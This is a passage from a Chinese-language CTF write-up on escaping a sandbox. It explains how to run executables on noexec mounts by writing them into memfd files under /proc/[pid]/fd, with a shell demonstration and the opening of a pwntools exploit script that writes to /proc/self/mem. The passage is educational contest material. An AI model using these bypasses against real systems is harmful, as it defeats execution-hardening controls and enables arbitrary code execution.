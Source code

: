 ```python
payload = sys_get_flag(FLAG_ID, BUF)
payload += sys_write(STDERR_FILENO, BUF, MAX_FLAG_LEN)
payload += sys_exit_group(0)
write_mem(payload)

print(p.recvall(timeout=2))
```

### Flag 3

从执行任意代码到执行任意（动态链接的）可执行文件？~~大力出奇迹，手写加载器即可通过这道题目~~（但这确实是校内唯一解的做法）。

虽然环境里 `/proc` 也是 `noexec` 参数挂载的，但实际上里面可以开出能直接执行的文件，这就是二阶段提示里提到的 [memfd](https://man7.org/linux/man-pages/man2/memfd_create.2.html) 。

利用执行任意代码的能力，可以创建任意多个 `memfd` ，然后可以在 `/proc/[pid]/fd/` 目录下面找到它们，这些文件是即可以写又可以执行的。这是一个简单的示例：
```
$ python -q
>>> import os
>>> os.memfd_create("hello", 0)
3
>>> os.execlp("bash", "bash")
$ ls /proc/$$/fd/3 -al
lrwx------ 1 linux linux 64 Oct 21 00:48 /proc/141385/fd/3 -> '/memfd:hello (deleted)'
$ cat <<EOF >/proc/$$/fd/3
> #!/bin/sh
> echo hello world
> EOF
$ /proc/$$/fd/3
hello world
$ exit
```

对于本题，用符号链接（符号链接可以处于 `noexec` 挂载的位置，可执行的判断只据被链接到的对象决定）给 `/proc/[pid]/fd/` 里的 `memfd` 命名，然后即可执行
```
LD_LIBRARY_PATH=/home/guest /home/guest/ld-linux-x86-64.so.2 /home/guest/hard_flag
```

注意所有动态链接库也需要用同样的方式处理（即放入 `memfd` 中），否则 `noexec` 挂载中的文件在内存映射时不能被指定为可执行（即 `mmap` 系统调用会被调用以映射代码段，但其携带的 `PROT_EXEC` 标志与 `noexec` 挂载模式冲突，导致映射被内核拒绝），于是动态库加载失败、加载器报错退出。

利用程序如下（也可在 [这里](source/exploits/exp3.py) 找到）：
```python
#!/usr/bin/env python3

from pwn import *

p = process('deploy/run.sh')

p.sendlineafter(b'Enter your choice: ', b'2')
p.recvuntil(b'/ $ ')

def sys(cmd):
    p.sendline(cmd.encode())
    res = p.recvuntil(b'/ $ ')
    return res.split(b'\n', 1)[1][:-4]

def stack_top():
    res = sys('cat /proc/$$/maps | grep stack')
    addr = res.split()[0].split(b'-')[1]
    return int(addr.decode(), 16)

def open_mem():
    sys('exec 3<>/proc/self/mem')

def read_mem(sz, off=0):
```